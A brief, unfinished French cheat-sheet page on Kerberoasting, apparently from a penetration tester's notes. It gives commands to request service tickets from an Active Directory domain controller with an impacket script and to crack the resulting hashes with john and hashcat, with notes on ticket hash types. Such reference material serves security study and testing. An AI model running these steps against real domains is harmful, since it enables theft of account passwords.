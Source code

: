 ```yaml
---
description: A finir
---
```


# Kerberoast

### Récupération des tickets TGS

```
GetUsersSPN.py -request -dc-ip <IP-DC> <domain.local>/<USER> -outputfile impacket_TGS_<IP>.txt
```

### Cassage des hashs obtenus

```
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```

Plusieurs format de hash peuvent être obtenu :

$17 : AES128

$18 : AES256 (-m 19700 sur hashcat, pas pris en compte par john)

$23 : RC4-HMAC-MD5 (pris en compte par john)
